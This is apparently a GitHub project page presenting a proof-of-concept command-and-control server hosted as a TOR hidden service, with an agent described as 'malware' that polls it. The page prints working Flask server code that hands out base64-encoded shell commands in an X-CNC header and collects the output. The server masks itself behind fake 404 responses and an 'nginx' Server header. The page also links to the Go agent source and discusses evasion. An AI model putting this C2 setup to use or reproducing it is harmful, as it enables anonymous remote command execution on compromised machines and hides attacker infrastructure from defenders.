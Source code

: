 ```yaml
---
title: C2 Over TOR
layout: page
type: project
meta: Proof of Concept - C2 Over TOR
---
```


# C2 Over TOR

### Introduction
This project is about setting up a _Command and Control_ as a hidden service in TOR network. An onion link is embedded in an agent or "malware" that constantly connects to that hidden service. The C2 itself is a simple flask server that sets the command to execute in the HTTP header and then expects the output from the agent. The output is just simply dumped in a file.


### Architecture

Below is the diagram of the architecture.<br />
![Diagram](images/1.jpg)
<br />

The C2 is served as a hidden service. The agent or "malware" would connect to it through the TOR network. HTTP method must be "PUT" to fetch C2 commands. The command is stuffed in **X-CNC** header in the HTTP response. HTTP method must be  "OPTIONS" to return command output. It is stuffed by agent in the **Cnc-Output** HTTP response header. Below can be seen the flask handling of the HTTP interaction. Commands can be set in **commands.txt** . 

#### The Command and Control Server
``` python 
# In c2_server/app.py
...
@app.route('/s3cr3t', methods=['PUT', 'OPTIONS'])
def s3cr3t_cnc():
    # OPTIONS = Accepting CNC result
    resp = make_response(render_template('404.html'))
    resp.headers.set('Server', 'nginx')
    if request.method == 'OPTIONS':
        # Get CNC results
        foo = dict(request.headers)
        if foo.get('Cnc-Output', None) != None:
            command_output = b64decode(foo['Cnc-Output'])
            command_output = b"\n\n\n\n\n\n"+command_output
            write_to_file(command_output_file, command_output, w_type="ab")

        return resp, 404


    # PUT = Sending CNC commands
    elif request.method == 'PUT':
        # Set the command in the headers and in base64
        command = read_from_file(command_file,r_type="rb")
        resp.headers.set(b'X-CNC', b64encode(command))
        return resp, 404
    else:
        return resp, 404
...
```
<br />The totality of the code just returns 404 regardless there is a hit or not. In my setup, it is also behind an Nginx server and redirects traffic to http://127.0.0.1:8000/s3cr3t if _/s3cr3t_ is hit.  

#### The Agent

Below is the agent's activity Cycle.<br />
![Diagram](images/2.jpg)
<br />

The code is written in Golang and can be seen [here](https://github.com/Altelus1/c2_tor/blob/master/agent/main.go). In the main repository also can be seen the non tor agent to test things out in  local environment. Links can be replaced by IPs instead of onion links.

### PoC

Running C2 and the agent.<br />
![PoC](images/poc_c2tor.gif)

### End notes
Running C2 as a hidden service would come in pros and cons. Pros would be the likes of being anonymous, be able to self-host thus having a full control, or having a dynamic generated onion hostnames. Cons would be the likes of being easy to be detected in network and in host threat hunting or having a muuuuch slower connection compared to a normal C2. Enhancements or workarounds can be done to remediate the cons or weaponize the pros. At the end of the day, this is just one of the techniques can be used to serve a C2.
<br />


**Resources:**
- https://medium.com/@rishabhlakhotia/setting-up-tor-hidden-service-8af1875921c6
- https://hackernoon.com/setting-up-a-tor-hidden-service-a-how-to-guide-zs1s3yoy
- https://github.com/cretz/bine
- https://flask.palletsprojects.com/en/2.0.x/
- https://pkg.go.dev/net/http


